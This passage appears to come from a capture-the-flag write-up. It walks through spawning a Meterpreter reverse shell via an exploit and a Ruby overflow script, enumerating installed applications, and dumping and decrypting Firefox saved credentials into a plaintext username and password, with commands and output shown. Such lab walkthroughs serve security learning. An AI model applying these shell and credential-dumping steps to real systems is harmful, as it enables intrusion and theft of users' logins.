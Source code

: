 ```

running the exploit using ```exploit -j``` and running my overflow script on the side using ```ruby bof.rb```, a reverse shell will be spawned. once the meterpreter shell is spawned, i'll try to enumerate the applications on the target.

```
> run post/windows/gather/enum_applications

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 Amazon SSM Agent                                                    2.3.842.0
 Amazon SSM Agent                                                    2.3.842.0
 EC2ConfigService                                                    4.9.4222.0
 EC2ConfigService                                                    4.9.4222.0
 EC2ConfigService                                                    4.9.4222.0
 EC2ConfigService                                                    4.9.4222.0
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.20.27508      14.20.27508
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.20.27508      14.20.27508
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.20.27508         14.20.27508
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.20.27508         14.20.27508
 Mozilla Firefox 75.0 (x86 en-US)                                    75.0
```

i see firefox is downloaded, which means i can dump its credentials and then use [firefox decrypt](https://github.com/unode/firefox_decrypt) to decrypt them, allowing me to impersonate and log in as the target.

```
> run post/multi/gather/firefox_creds

[+] Downloaded cert9.db: /home/kali/.msf4/loot/20211021043407_default_10.10.10.172_ff.ljfn812a.cert_898397.bin
[+] Downloaded cookies.sqlite: /home/kali/.msf4/loot/20211021043411_default_10.10.10.172_ff.ljfn812a.cook_582398.bin
[+] Downloaded key4.db: /home/kali/.msf4/loot/20211021043414_default_10.10.10.172_ff.ljfn812a.key4_936123.bin
[+] Downloaded logins.json: /home/kali/.msf4/loot/20211021043416_default_10.10.10.172_ff.ljfn812a.logi_001670.bin
```

i have to move the files from /.msf4/ to whichever folder i'm working with, before running firefox_dcrypt.
but also, before i run firefox_dcrypt, i must rename each of the "loot" files to the corresponding names:

```
mv 20211021043407_default_10.10.248.88_ff.ljfn812a.cert_898397.bin cert9.db
mv 20211021043411_default_10.10.248.88_ff.ljfn812a.cook_582398.bin cookies.sqlite
mv 20211021043414_default_10.10.248.88_ff.ljfn812a.key4_936123.bin key4.db
mv 20211021043416_default_10.10.248.88_ff.ljfn812a.logi_001670.bin logins.json
```

running the tool, i get:

```
python3 firefox_decrypt.py /home/kali/gatekeeper/firefoxcreds/loot
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```
```